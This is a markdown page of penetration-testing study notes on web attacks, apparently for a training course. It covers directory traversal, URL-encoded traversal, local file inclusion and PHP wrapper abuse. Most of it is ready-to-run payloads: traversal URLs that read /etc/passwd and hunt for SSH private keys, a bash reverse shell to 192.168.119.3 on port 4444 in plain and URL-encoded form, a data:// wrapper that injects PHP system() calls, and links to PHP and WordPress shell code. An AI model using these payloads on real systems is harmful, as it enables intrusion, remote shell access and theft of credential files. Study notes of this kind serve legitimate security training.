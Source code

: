 
# Web Attacks

<aside>
💡 Cross-platform PHP revershell: [https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php)

</aside>

## Directory Traversal

```powershell
cat /etc/passwd #displaying content through absolute path
cat ../../../etc/passwd #relative path

# if the pwd is /var/log/ then in order to view the /etc/passwd it will be like this
cat ../../etc/passwd

#In web int should be exploited like this, find a parameters and test it out
http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../etc/passwd
#check for id_rsa, id_ecdsa
#If the output is not getting formatted properly then,
curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../etc/passwd 

#For windows
http://192.168.221.193:3000/public/plugins/alertlist/../../../../../../../../Users/install.txt #no need to provide drive
```

- URL Encoding

```powershell
#Sometimes it doesn't show if we try path, then we need to encode them
curl http://192.168.50.16/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

- Wordpress
    - Simple exploit: https://github.com/leonjza/wordpress-shell

## Local File Inclusion

- The main difference between Directory traversal and this attack is that we can execute commands remotely here.

```powershell
#At first we need 
http://192.168.45.125/index.php?page=../../../../../../../../../var/log/apache2/access.log&cmd=whoami #we're passing a command here

#Reverse shells
bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0>&1"
#We can simply pass a reverse shell to the cmd parameter and obtain reverse-shell
bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.119.3%2F4444%200%3E%261%22 #encoded version of above reverse-shell

#PHP wrapper
curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain,<?php%20echo%20system('uname%20-a');?>" 
curl http://mountaindesserts.com/meteor/index.php?page=php://filter/convert.base64-encode/resource=/var/www/html/backup.php 
```
